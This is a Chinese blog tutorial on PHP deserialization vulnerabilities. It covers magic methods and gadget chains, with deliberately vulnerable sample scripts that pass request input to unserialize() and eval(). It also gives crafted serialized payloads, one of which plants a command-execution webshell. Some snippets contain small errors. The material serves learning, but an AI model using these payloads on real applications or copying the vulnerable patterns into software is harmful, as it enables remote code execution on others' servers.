






<!DOCTYPE html>
<html>

<head><meta name="generator" content="Hexo 3.9.0">
    <meta charset="utf-8">
    
    <title>php反序列化漏洞学习 | Hu5k7&#39;s Blog</title>
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">

    

    

    

    <link rel="stylesheet" href="/dist/build.css?v=1.5.0">

    <script>
        window.aomori = {
            
        }
    </script>

</head></html>

<body>

  <div class="container">
    <header class="header">
        <div class="header-type">
            
            <div class="avatar avatar-sm">
                
            </div>
            
            <a href="/">Hu5k7&#39;s Blog</a>
            
        </div>
        <div class="header-menu">
            <div class="header-menu-inner">
                
                <a href="/">Home</a>
                
                <a href="/archives">Archives</a>
                
                <a href="/friends">Friends</a>
                
            </div>
            <div class="header-menu-social">
                
            </div>
        </div>

        <div class="header-menu-mobile">
            <div class="header-menu-mobile-inner" id="mobile-menu-open">
                <i class="icon icon-menu"></i>
            </div>
        </div>
    </header>

    <div class="header-menu-mobile-menu">
        <div class="header-menu-mobile-menu-bg"></div>
        <div class="header-menu-mobile-menu-wrap">
            <div class="header-menu-mobile-menu-inner">
                <div class="header-menu-mobile-menu-close" id="mobile-menu-close">
                    <i class="icon icon-cross"></i>
                </div>
                <div class="header-menu-mobile-menu-list">
                    
                    <a href="/">Home</a>
                    
                    <a href="/archives">Archives</a>
                    
                    <a href="/friends">Friends</a>
                    
                </div>
            </div>
        </div>
    </div>

</div>

  <div class="container">
    <div class="main">
      <section class="inner">
        <section class="inner-main">
          <div class="post">
    <article id="post-ckeh7gake000r70nztd4db0ik" class="article article-type-post" itemscope
    itemprop="blogPost">

    <div class="article-inner">

        

        
        <header class="article-header">
            
  
    <h1 class="article-title" itemprop="name">
      php反序列化漏洞学习
    </h1>
  

        </header>
        

        <div class="article-more-info article-more-info-post hairline">

            <div class="article-date">
  <time datetime="2019-10-05T00:00:00.000Z" itemprop="datePublished">2019-10-05</time>
</div>

            
            <div class="article-category">
                <a class="article-category-link" href="/categories/Note/">Note</a>
            </div>
            

            
            <div class="article-tag">
                <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/Note/">Note</a></li></ul>
            </div>
            

            
        </div>

        <div class="article-entry post-inner-html hairline" itemprop="articleBody">
            <h1 id="0x00-写在前面">0x00 写在前面</h1>
<p>PHP反序列化漏洞虽然利用的条件比较苛刻，但是如果可以利用一般都会产生很严重的后果。在春招的时候很多公司都问过这个问题，说明这个反序列化漏洞的技能点也是很多公司比较关注的技能点。</p>
<a id="more"></a>
<h1 id="0x01-PHP反序列化漏洞">0x01 PHP反序列化漏洞</h1>
<p><strong>PHP反序列化漏洞</strong>,一直围绕着两个函数serialize() 和unserialize()</p>
<pre><code class="language-php"> serialize() //是用于将类转换为一个字符串
 unserialize() //用于将字符串转换回一个类
</code></pre>
<h2 id="serialize">serialize()</h2>
<pre><code class="language-php">&lt;?php

class fangxuliehua{
    public $var1=&quot;test for fangxuliehua&quot;;
}
$fangxuliehua = new fangxuliehua();//根据fangxuliehua类实列化对象
$fangxueliehua_ser = serialize($fangxuliehua);
print_r($fangxueliehua_ser);

?&gt;
</code></pre>
<p></p>
<p>我们这边创建了新的对象，并将他序列化打印出来。结果为：</p>
<pre><code class="language-json">O:12:&quot;fangxuliehua&quot;:1:{s:4:&quot;var1&quot;;s:4:&quot;test&quot;;}
</code></pre>
<blockquote>
<p>这里的<strong>O</strong>代表的是存储对象(Object),<strong>12</strong>则是12个字符，也就是存储对象里有12个字符。<strong>“fangxuliehua”<strong>则是对象的名称，这里的</strong>1</strong>则代表了**{s:4:“var1”;s:4:“test”;}** 里面有一个值。<strong>s</strong>表示字符串，<strong>4</strong>则长度。**“var1”**为字符串名字，后面的相同</p>
</blockquote>
<h2 id="unserialize">unserialize()</h2>
<p>与 serialize() 对应的，unserialize()可以从已存储的表示中创建PHP的值，单就本次所关心的环境而言，可以从序列化后的结果中恢复对象（object）。</p>
<pre><code class="language-php">&lt;?php
    
class fanguxliehua{
    public $var1=&quot;test&quot;;
}

$class= 'O:12:&quot;fangxuliehua&quot;:1:{s:4:&quot;var1&quot;;s:4:&quot;test&quot;;}';
print_r($class);
echo &quot;&lt;/br&gt;&quot;;

$class_unser=unserialize($class);
print_r($class_unser);

?&gt;
</code></pre>
<p></p>
<p><strong>tips:这里使用unserialize()时，会调用__wakeup()成员函数</strong></p>
<h1 id="0x02-反序列化漏洞产生原因">0x02 反序列化漏洞产生原因</h1>
<p>当传给 unserialize() 的参数可控时，我们可以通过传入一个精心构造的序列化字符串，从而控制对象内部的变量甚至是函数。</p>
<h1 id="0x03-利用函数构造PAYLOAD">0x03 利用函数构造PAYLOAD</h1>
<h3 id="Magic-function">Magic function</h3>
<p>php中有一类特殊的方法叫&quot;魔法函数&quot;(Magic function)， 这里我列出了与 php(反)序列化有关的几个魔法函数:</p>
<pre><code class="language-php">__construct()	//当一个对象创造时被调用
__destruct()	//当对象被销毁时触发
__wakeup()	//使用unserialize()时触发
__sleep()		//使用serialize()时触发
__toString()	//把类当作字符串使用时触发
__get()		//用于从不可访问的属性读取数据
__set()		//用于将数据写入不可访问的属性
__isset()		//在不可访问的属性上调用isset()或empty()触发
__unset()		//在不可访问的属性上使用unset()时触发
__invoke()		//当脚本尝试将对象调用为函数时触发
</code></pre>
<p>这里我们着重关注一下几个：</p>
<ul>
<li>
<p>构造函数__construct()：当对象创建(new)时会自动调用。但在unserialize()时是不会自动调用的。</p>
</li>
<li>
<p>析构函数__destruct()：当对象被销毁时会自动调用。</p>
</li>
<li>
<p>__wakeup() ：如前所提，unserialize()时会自动调用。</p>
</li>
</ul>
<p>代码如下:</p>
<pre><code class="language-php">&lt;?php
class test{
    var $var='123';
    function __wakeup(){
        echo &quot;__wakeup&quot;.&quot;&lt;br&gt;&quot;;
    }
    function __construct(){
        echo &quot;__construct&quot;.&quot;&lt;br&gt;&quot;;
    }
    function __destruct(){
        echo &quot;__destruct&quot;.&quot;&lt;br&gt;&quot;;
    }
}
echo &quot;序列化所调用的函数:&quot;.&quot;&lt;br&gt;&quot;;
$data=new test();	//根据test类实列化对象
$data=serialize($data);

echo &quot;反序列化所调用的函数:&quot;.&quot;&lt;br&gt;&quot;;
$data1=unserialize($data);
print_r($data1);
?&gt;
</code></pre>
<p></p>
<h3 id="利用示范">利用示范</h3>
<h4 id="wakeup-或-destruct">_wakeup() 或__destruct()</h4>
<p>前面说了利用都是基于“自动调用”的magic function。从而当我们控制序列化字符串时可以去直接触发它们。</p>
<p>这里针对 __wakeup() 场景做个实验。假设index源码如下：</p>
<pre><code class="language-php">&lt;?php

class test{
	var $test = 'test';
	function __wakeup(){
		$fp = fopen(&quot;webshell.php&quot;,&quot;w&quot;) ;
		fwrite($fp,$this-&gt;test);
		fclose($fp);
	}
}
$class_get = $_GET['test'];
print_r($class_get);
echo &quot;&lt;/br&gt;&quot;;
$class_get_unser = unserialize($class_get);
include_once(&quot;webshell.php&quot;) //包含一下，让它能显示效果
    
?&gt;
</code></pre>
<p>webshell.php需要自己建立。在同目录下建立了一个webshell.php，最先访问index.php</p>
<p>基本思路是，通过<strong>serialize()<strong>得到我们想要的序列化字符串，之后再传进去。假设我们已知index.php源码。把对象中的</strong>$test</strong>赋值再调用<strong>unserialize()<strong>时会通过</strong>__wakeup()<strong>把</strong>$test</strong>的写入到shell.php中。</p>
<p>我们写个php脚本:</p>
<pre><code class="language-php">class payload{
	public $target=&quot;&lt;?php $a=$_GET[cmd];system($a);?&gt;&quot;;
}

$a =serialize(new payload);
echo $a;
</code></pre>
<p>序列化后输出:</p>
<pre><code class="language-php">O:7:&quot;payload&quot;:1:{s:4:&quot;test&quot;;s:33:&quot;&quot;;}
</code></pre>
<p>s:33:&quot;&quot;里面没有payload我们自己写进去:</p>
<p><strong>tips:与target=里面的?&gt;&quot;发生了冲突，还未找到解决方案</strong></p>
<pre><code class="language-php">O:7:&quot;payload&quot;:1:{s:4:&quot;test&quot;;s:33:&quot;&lt;?php $a=$_GET[cmd];system($a);?&gt;&quot;;}
</code></pre>
<p></p>
<p>执行成功！</p>
<h3 id="其他Magic-function的利用">其他Magic function的利用</h3>
<p>但如果一次unserialize()中并不会直接调用的魔术函数，比如前面提到的__construct()，是不是就没有利用价值呢？并不是。然而类似于PWN中的ROP，有时候反序列化一个对象时，由它调用的__wakeup()中又去调用了其他的对象，由此可以溯源而上，利用一次次的“gadget”找到漏洞点。</p>
<pre><code class="language-php">class fangxuliehua_1{
	function __construct($test){
		 $fp = fopen(&quot;webshell.php&quot;,&quot;w&quot;) ;
        fwrite($fp,$this-&gt;test);
        fclose($fp);
	}
}
class fangxuliehua_2{
	public $test='test';
	function __wakeup(){
     	$obj=new fangxuliehua_1($this-&gt;test);
    }
}

$class_get = $_GET['test'];
print_r($class_get);
echo &quot;&lt;/br&gt;&quot;;
$class_get_unser = unserialize($class_get);

include_once(&quot;webshell.php&quot;);//包含一下，让它能显示效果
</code></pre>
<p>这里我们给test传入构造好的序列化字符串后，进行反序列化时自动调用 __wakeup()函数，从而在new fangxuliehua_1()会自动调用对象fangxuliehua_1中的__construct()方法，从而把<code>&lt;?php phpinfo() ?&gt;</code>写入到 webshell.php中。</p>
<pre><code class="language-php">O:14:&quot;fangxuliehua_2&quot;:1:{s:4:&quot;test&quot;;s:18:&quot;&lt;?php%20phpinfo();?&gt;&quot;;}
</code></pre>
<p></p>
<h1 id="0x04-利用普通成员方法">0x04 利用普通成员方法</h1>
<p>前面谈到的利用都是基于“自动调用”的magic function。但当漏洞/危险代码存在类的普通方法中，就不能指望通过“自动调用”来达到目的了。这时的利用方法如下，寻找相同的函数名，把敏感函数和类联系在一起。</p>
<pre><code class="language-php">&lt;?php
class itishead{
	public $test;
	function __construct(){
		$this-&gt;test= new itisbody();
	}
	function __destruct(){
		$this-&gt;test-&gt;action();
	}
}

class itisbody{
	function action(){
		echo &quot;hereisbody:)&quot;;
	}
}


class itisfoot{
	public $test2;
	function action(){
		eval($this-&gt;test2);
	}
}

$class = new itishead();
unserialize($_GET['test']);
?&gt;
</code></pre>
<p>本意上，new一个新的itishead对象后，调用_construct()，其中又new了itisbody对象。在结束后会调用__destruct()，其中会调用action()，从而输出 itisbody。</p>
<p>利用代码:</p>
<pre><code class="language-php">&lt;?php
class itishead {
    var $test;
    function __construct() {
        $this-&gt;test = new itisfoot();
    }
}
class itisfoot {
    var $test2 = &quot;phpinfo();&quot;;
}
echo serialize(new itishead());
?&gt;
</code></pre>
<p>生成：</p>
<pre><code class="language-php">O:8:&quot;itishead&quot;:1:{s:4:&quot;test&quot;;O:8:&quot;itisfoot&quot;:1:{s:5:&quot;test2&quot;;s:10:&quot;phpinfo();&quot;;}}
</code></pre>
<p>把payload传进去:</p>
<p></p>
<p>利用成功！</p>
<blockquote>
<p>参考链接:<a href="https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/" target="_blank" rel="noopener">https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/</a></p>
</blockquote>
<p><strong>转载请标明出处</strong></p>

        </div>

    </div>

    

    

    

    
<div class="article-copyright hairline">
  <p>
    本作品采用 <a rel="license" href="http://creativecommons.org/licenses/by-nc-nd/4.0/">知识共享署名-非商业性使用-禁止演绎 4.0 国际许可协议</a> 进行许可。
  </p>
</div>


    

    
<nav class="article-nav">
  
    <a href="/2019/10/17/phpstudy2018-backdoor-exp/" id="article-nav-newer" class="article-nav-link-wrap">
      <div class="article-nav-caption">下一篇</div>
      <div class="article-nav-title">
        
          phpstudy2018_backdoor_exp
        
      </div>
    </a>
  
  
    <a href="/2019/09/24/http参数污染/" id="article-nav-older" class="article-nav-link-wrap">
      <div class="article-nav-caption">上一篇</div>
      <div class="article-nav-title">浅谈经典漏洞HTTP参数污染</div>
    </a>
  
</nav>


    <section class="share">
        <div class="share-title">分享</div>
        <a class="share-item" target="_blank"
            href="https://twitter.com/share?text=php反序列化漏洞学习 - Hu5k7's Blog&url=https://hu5k7.github.io/2019/10/05/PHP反序列化学习/">
            <box-icon type='logo' name='twitter'></box-icon>
        </a>
        <a class="share-item" target="_blank"
            href="https://www.facebook.com/sharer.php?title=php反序列化漏洞学习 - Hu5k7's Blog&u=https://hu5k7.github.io/2019/10/05/PHP反序列化学习/">
            <box-icon name='facebook-square' type='logo' ></box-icon>
        </a>
        <!-- <a class="share-item" target="_blank"
            href="https://service.weibo.com/share/share.php?title=php反序列化漏洞学习 - Hu5k7's Blog&url=https://hu5k7.github.io/2019/10/05/PHP反序列化学习/&pic=">
            <div class="n-icon n-icon-weibo"></div>
        </a> -->
    </section>

</article>


</div>
        </section>
      </section>
      <aside class="sidebar">
        <div class="widget">
          

  
  <div class="widget-wrap widget-recent-posts">
    <div class="widget-title"><span>Recent Posts</span></div>
    <div class="widget-inner">
      <ul>
        
          <li>
            <a href="/2020/08/31/takeshell-02/">Mark_Android_GetShell</a>
          </li>
        
          <li>
            <a href="/2020/07/10/Mark-OnceBuild-CrossC2Object/">Mark_OnceBuild_CrossC2Object</a>
          </li>
        
          <li>
            <a href="/2020/05/14/iseacms代码审计入门级/">iseacms代码审计入门级</a>
          </li>
        
          <li>
            <a href="/2020/04/10/takeshell-01/">Mark-once-WebShell_01</a>
          </li>
        
          <li>
            <a href="/2020/02/24/MSSQL盲注/">MSSQL_Blind_Injection</a>
          </li>
        
      </ul>
    </div>
  </div>


  
  <div class="widget-wrap widget-cate">
    <div class="widget-title"><span>Categories</span></div>
    <div class="widget-inner">
      <ul class="category-list"><li class="category-list-item"><a class="category-list-link" href="/categories/Bash/">Bash</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/">CTF</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/CTF-Pwn-Note/">CTF-Pwn-Note</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/CTF-Reverse-Note/">CTF-Reverse-Note</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/CTF-Web-Note/">CTF-Web-Note</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/Note/">Note</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/Python/">Python</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/vulnhub/">vulnhub</a></li></ul>
    </div>
  </div>


  
  <div class="widget-wrap widget-archive">
    <div class="widget-title"><span>Archive</span></div>
    <div class="widget-inner">
      <ul class="archive-list"><li class="archive-list-item"><a class="archive-list-link" href="/archives/2020/08/">2020</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2019/12/">2019</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/12/">2018</a></li></ul>
    </div>
  </div>


        </div>
        <div id="backtop"><i class="icon icon-arrow-up"></i></div>
      </aside>
    </div>
  </div>

  <footer class="footer">
    <div class="footer-inner">
        <div class="footer-info">
            <span>&copy; 2013 - 2020 Hu5k7&#39;s Blog</span>
        </div>
        <div class="footer-powered">
            <a href="https://github.com/lh1me/hexo-theme-aomori" target="_blank">Aomori</a> Theme · Powered By Hexo
        </div>
    </div>
</footer>


<script src="/dist/build.js?1.5.0"></script>
<script src="/dist/custom.js?1.5.0"></script>


<!-- 百度链接提交 -->
<script>
    (function () {
        var bp = document.createElement('script');
        var curProtocol = window.location.protocol.split(':')[0];
        if (curProtocol === 'https') {
            bp.src = 'https://zz.bdstatic.com/linksubmit/push.js';
        }
        else {
            bp.src = 'http://push.zhanzhang.baidu.com/push.js';
        }
        var s = document.getElementsByTagName("script")[0];
        s.parentNode.insertBefore(bp, s);
    })();
</script>


<script src="/live2dw/lib/L2Dwidget.min.js?094cbace49a39548bed64abff5988b05"></script><script>L2Dwidget.init({"pluginModelPath":"assets/","model":{"jsonPath":"/live2dw/assets/miku.model.json"},"display":{"position":"left","width":200,"height":350},"mobile":{"show":false},"log":false,"pluginJsPath":"lib/","pluginRootPath":"live2dw/","tagMode":false});</script></body>
</html>